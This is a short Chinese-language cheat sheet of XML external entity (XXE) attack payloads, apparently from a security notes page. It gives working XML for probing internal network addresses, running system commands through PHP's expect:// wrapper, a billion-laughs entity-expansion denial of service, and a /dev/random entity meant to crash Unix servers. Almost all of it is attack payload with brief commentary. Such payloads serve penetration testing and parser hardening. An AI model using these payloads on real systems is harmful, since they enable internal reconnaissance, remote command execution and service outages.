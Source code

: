 

#### 内网探测

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>        
<!DOCTYPE foo [ 
<!ELEMENT foo ANY >
<!ENTITY rabbit SYSTEM "http://内网ip:port" >
]>

<firstname>&rabbit;</firstname>
```



#### 命令执行

> 该 CASE 是在安装 expect 扩展的 PHP 环境里执行系统命令

```xml-dtd
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "expect://命令" >
]>
<x>&xxe;</x>
```



#### DOS攻击--没成功过

```xml-dtd
<?xml version="1.0"?> <!DOCTYPE lolz [  <!ENTITY lol "lol">  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;"> ]> <lolz>&lol9;</lolz> 
```

此测试可以在内存中将小型 XML 文档扩展到超过 3GB 而使服务器崩溃。
亦或者，如果目标是UNIX系统，

```xml-dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ 
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///dev/random" >]>
<foo>&xxe;</foo>
```

如果 XML 解析器尝试使用`/dev/random`文件中的内容来替代实体，则此示例会使服务器（使用 UNIX 系统）崩溃。





